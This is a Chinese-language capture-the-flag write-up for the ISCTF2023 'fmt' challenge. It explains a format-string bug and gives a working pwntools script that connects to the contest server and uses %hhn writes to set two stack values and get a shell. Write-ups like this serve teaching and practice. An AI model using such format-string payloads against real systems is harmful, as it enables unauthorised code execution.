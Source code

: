 ```yaml
---
title: isctf2023 - fmt
date: 2023/12/3 12:00:00
tags:
    - noob
---
```


## 文件分析

保护全开  
ghidra分析为64位程序

## 解题思路

这题是要将栈上的2个int值修改成特定数字就给shell，作者已将地址放在栈上，
gdb动调格式化字符串的参数，发现这2个地址均可访问到，那么直接使用%n将数字写入即可

（我看作者还在buf上放了地址的后8位，估计我这个是非预期解吧）

## EXPLOIT

```python
from pwn import *
def payload(lo):
    global sh
    if lo:
        sh = process('./fmt')
    else:
        sh = remote('43.249.195.138', 22188)
    if lo & 0b10:
        gdb.attach(sh)

    # 第8个参数和第9个参数刚好是那2个地址，分别写入0x12和0x34即可
    # 给新手一个提醒，在同一条printf语句中，%n统计的是累计打印出的字符数
    # %hhn是将地址视为byte *向其中写入数字
    sh.sendline(b'%18d%8$hhn%34d%9$hhn')
    sh.interactive()

payload(0)
```

Done.
